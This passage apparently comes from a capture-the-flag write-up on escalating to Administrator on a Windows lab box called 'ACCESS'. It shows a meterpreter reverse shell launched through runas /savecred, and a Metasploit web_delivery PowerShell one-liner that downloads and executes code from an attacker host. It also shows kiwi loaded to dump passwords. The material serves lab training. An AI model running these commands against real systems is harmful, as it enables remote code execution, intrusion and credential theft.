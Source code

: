 Finally, on target, use the cached credentials to execute the reverse shell.
````
C:\Users\security> runas /savecred /user:ACCESS\Administrator .\meter-rev-12345.exe
````

We’ll wrap it up with a quick demonstration of running powershell commands from meterpreter.
````
msf exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...
meterpreter > getuid
Server username: ACCESS\Administrator
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_execute "get-content C:\users\administrator\desktop\root.txt 
[-] Parse error: Unmatched double quote: "powershell_execute \"get-content C:\\users\\administrator\\desktop\\root.txt "
meterpreter > powershell_execute "get-content C:\users\administrator\desktop\root.txt"
[+] Command execution completed:
6e1586cc7ab230a8d297e8f933d904cf
````

## Method 4 : use msf Webdelivery
````
$ msfconsole
msf5 > use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 2               (powershell)
target => 2
msf5 exploit(multi/script/web_delivery) > set srvport 8081
srvport => 8081
msf5 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > set lhost tun0
lhost => tun0
msf5 exploit(multi/script/web_delivery) > set lport 12345
lport => 12345
msf5 exploit(multi/script/web_delivery) > exploit -j 

[*] Local IP: http://192.168.100.234:8081/ovuR3ArPYFio
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $t=new-object net.webclient;$t.proxy=[Net.WebRequest]::GetSystemWebProxy();$t.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $t.downloadstring('http://10.10.14.77:8081/ovuR3ArPYFio');

msf exploit(multi/script/web_delivery) > sessions 1
[*] Starting interaction with 1...
meterpreter > getuid
Server username: ACCESS\security
meterpreter > 


C:\Users\security>runas /savecred /user:ACCESS\Administrator "powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://10.10.14.14:8081/HZg4d7k80');"

sessions 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: ACCESS\Administrator

# Get the passwords..
meterpreter > load kiwi
Success.
````